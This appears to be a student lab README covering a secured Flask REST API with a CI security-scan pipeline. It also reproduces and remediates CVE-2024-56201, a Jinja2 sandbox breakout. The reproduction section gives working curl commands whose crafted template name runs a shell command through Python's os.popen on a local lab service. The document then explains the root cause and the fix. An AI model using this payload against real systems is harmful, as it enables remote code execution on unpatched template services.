# Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis

Laboratory Work No. 1. A small Flask API with parameterised SQL, output encoding,
bcrypt password hashing and JWT authentication; a GitHub Actions pipeline with
Bandit (SAST) and Safety (SCA); and a reproduction, root-cause analysis and
remediation of **CVE-2024-56201** (Jinja2 sandbox breakout through malicious
template filenames).

## 1. Project and API

| Method and path | Authentication | Body | Success | Failure |
| --- | --- | --- | --- | --- |
| `POST /auth/register` | none | `{"login","password"}` | `201 {"message":"registered"}` | `400` invalid body, `409` login taken |
| `POST /auth/login` | none | `{"login","password"}` | `200 {"token":"<JWT>"}` | `401 {"error":"invalid credentials"}` |
| `GET /api/data` | `Authorization: Bearer <JWT>` | - | `200 {"data":[{"id","login"}]}` | `401 missing / invalid / expired token` |

```bash
pip install -r requirements.txt
python app.py                       # http://127.0.0.1:5000

curl -s -X POST http://127.0.0.1:5000/auth/register \
  -H "Content-Type: application/json" -d '{"login":"alice","password":"pass123"}'

TOKEN=$(curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" -d '{"login":"alice","password":"pass123"}' \
  | python -c "import sys,json;print(json.load(sys.stdin)['token'])")

curl -s http://127.0.0.1:5000/api/data -H "Authorization: Bearer $TOKEN"
```

PowerShell equivalents:

```powershell
Invoke-RestMethod -Uri "http://localhost:5000/auth/register" -Method Post -ContentType "application/json" -Body '{"login":"alice","password":"pass123"}'
Invoke-RestMethod -Uri "http://localhost:5000/auth/login" -Method Post -ContentType "application/json" -Body '{"login":"alice","password":"pass123"}'
Invoke-RestMethod -Uri "http://localhost:5000/api/data" -Method Get -Headers @{"Authorization"="Bearer <token>"}
```





## 2. Security measures

**SQL injection.** Every statement is executed with `?` placeholders, so the SQL
text is compiled before any value is bound and a payload such as `' OR 1=1 --`
is compared as a literal login.

```python
cur.execute("SELECT id, login, password_hash FROM users WHERE login = ?", (login,))
cur.execute("INSERT INTO users (login, password_hash) VALUES (?, ?)", (login, password_hash))
```

**Cross-site scripting.** User-controlled values are escaped on output:

```python
data = [{"id": r["id"], "login": str(escape(r["login"]))} for r in rows]
```

**Broken authentication.** Passwords are stored as bcrypt hashes; a successful
login returns a signed JWT with an expiry; a decorator verifies the bearer token
on every protected route and answers `401` when it is missing, invalid or
expired.

```python
password_hash = bcrypt.hashpw(password.encode("utf-8"), bcrypt.gensalt())
token = jwt.encode({"user_id": row["id"], "exp": ...}, JWT_SECRET, algorithm="HS256")
```

## 3. CI/CD security scans

`.github/workflows/ci.yml` runs on every push and pull request: Bandit (SAST)
scans the Python source, Safety (SCA) checks the dependency pins, and both JSON
reports are uploaded as the `security-reports` artifact.




## 4. Selected vulnerability: CVE-2024-56201

| Field | Value |
| --- | --- |
| CVE / advisory | CVE-2024-56201 / GHSA-gmj6-6f8f-6699 |
| Title | Jinja has a sandbox breakout through malicious filenames |
| Affected | Pallets Jinja 3.0.0 - 3.1.4 |
| Fixed in | 3.1.5 |
| Weakness | CWE-150; OWASP A03:2021 Injection |
| Severity | CVSS 3.1 8.8 High (NVD); CVSS 4.0 5.4 Medium (CNA) |
| Precondition | Attacker controls the template body and the template name |

Vulhub ships no environment for this CVE, so `cve-2024-56201-lab/` contains a
minimal multi-tenant template service that implements the precondition: the
tenant chooses the template name and body, and rendering goes through
`SandboxedEnvironment`.





## 5. Reproduction

```bash
cd cve-2024-56201-lab
python3 -m venv venv-cve && source venv-cve/bin/activate
pip install -r requirements.txt        # Flask 3.0.0, Jinja2 3.1.4
python app.py                          # http://127.0.0.1:5001
```

The template body must reach the failing-import branch, and the name must
contain braces:

```bash
EVIL='{7+7}.html'
curl -s -X POST http://127.0.0.1:5001/upload \
  --data-urlencode "name=$EVIL" \
  --data-urlencode "body={{ m.x }}"
curl -s -G http://127.0.0.1:5001/render --data-urlencode "name=$EVIL"
# UndefinedError: ... in '14.html' ...

RCE='{__import__(chr(111)+chr(115)).popen(chr(105)+chr(100)).read()}.html'
curl -s -X POST http://127.0.0.1:5001/upload \
  --data-urlencode "name=$RCE" \
  --data-urlencode "body={{ m.x }}"
curl -s -G http://127.0.0.1:5001/render --data-urlencode "name=$RCE"
# UndefinedError: ... in 'uid=1000(lin123456) ...' ...
```



`chr()` is used instead of quotes because the name is inserted into the message
through `repr()`; a quote would be escaped, and a backslash inside an f-string
expression is a syntax error.

## 6. Root cause

For a failing `` import, Jinja 3.1.4 generates an f-string that
interpolates the position (line number and template name) verbatim:

```python
l_0_m = undefined(f"the template {included_template.__name__!r} (imported on line 1 in '{7+7}.html') ...")
```

Braces in the name become replacement fields, so the name is compiled as code.
`SandboxedEnvironment` cannot help: it vets attribute and item access of
compiled template expressions at run time, while this payload is ordinary
Python inside the generated module. Filtering names is a filter, not a boundary.

## 7. Fix and proof

```bash
pip install "jinja2==3.1.5"     # vendor patch: braces escaped before formatting
python app.py
```



Replaying the same requests returns the names as text and executes nothing,
while the legitimate template still renders:




## 8. Links and artefacts

- Repository: https://github.com/11A18633-9318-4EAD-A762-3E838CE7CF1A/secure-api-lab
- Last successful pipeline: https://github.com/11A18633-9318-4EAD-A762-3E838CE7CF1A/secure-api-lab/actions
- Environment and fix: `cve-2024-56201-lab/` (service, templates and the pinned
  `requirements.txt`); the upgrade to Jinja2 3.1.5 is the remediation.
